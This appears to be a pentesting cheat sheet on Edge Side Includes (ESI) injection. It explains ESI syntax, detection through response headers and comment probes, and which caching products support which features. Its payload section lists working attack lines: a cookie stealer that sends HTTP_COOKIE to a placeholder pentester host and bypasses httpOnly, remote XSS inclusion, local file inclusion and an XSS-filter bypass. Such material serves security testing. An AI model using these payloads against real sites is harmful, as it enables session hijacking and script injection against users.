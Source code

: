 
# ESI Features & Syntax


## -Variables

### syntax 
```html
<esi:vars>$(VARIABLE_NAME)</esi:vars>
```

$(HTTP_USER_AGENT) → Mozilla/5.0 (X11;[…]
$(QUERY_STRING) → city=Montreal&format=C
$(HTTP_COOKIE) → _ga=[…]&__utma=[…]

### example  
```html
<esi:vars>$(HTTP_COOKIE{PHPSESSID})</esi:vars>
```


## -Include

### syntax 
```html
<esi:include src="/path/to/file" />
```

### example  
##### //esi/page-1.html:
```html
<html>
<p>This is page 1!</p>
<esi:include src="//api/page-2.html" />
</html>
```
##### //api/page-2.html:
```
<p>This is page 2!</p>
```


## -Assign
### syntax
```html
<esi:assign name="var1" value="value"/>
```



# ESI payloads

```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>

//xss bypass
x=<esi:assign name="var1" value="'cript'"/>
<s  <esi:vars name="$(var1)"/>  >
alert(/Chrome%20XSS%20filter%20bypass/);
</s <esi:vars name="$(var1)"/>  >

```



# Detection 

- **inspecting response headers in search for Surrogate-Control: content="ESI/1.0"**
- **we usually need to use a blind attack approach to detect if ESI is in use or not.**
- **Specifically, we can introduce ESI tags to HTTP requests to see if any intermediary proxy is parsing the request and if ESI Injection is possible.**
```html
FOO<!--esi -->BAR → FOOBAR ✅
FOO<!--foo -->BAR → FOO<!--foo -->BAR ❌
```


# ESI-capable software differences

- **Includes**: Supports the <esi:includes> directive
- **Vars**: Supports the <esi:vars> directive. Useful for bypassing XSS Filters
- **Cookie**: Document cookies are accessible to the ESI engine
- **Upstream Headers Required**: Surrogate applications will not process ESI statements unless the upstream application provides the headers
- **Host Allowlist**: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

| Software                        | Includes | Vars | Cookies | Upstream Headers Required | Host Whitelist |
|---------------------------------|----------|------|---------|--------------------------|----------------|
| Squid3                          | Yes      | Yes  | Yes     | Yes                      | No             |
| VarnishCache                    | Yes      | No   | No      | Yes                      | Yes            |
| Fastly                          | Yes      | No   | No      | No                       | Yes            |
| Akamai ESI Test Server (ETS)    | Yes      | Yes  | Yes     | No                       | No             |
| NodeJS esi                      | Yes      | Yes  | Yes     | No                       | No             |
| NodeJS nodesi                   | Yes      | No   | No      | No                       | Optional       |
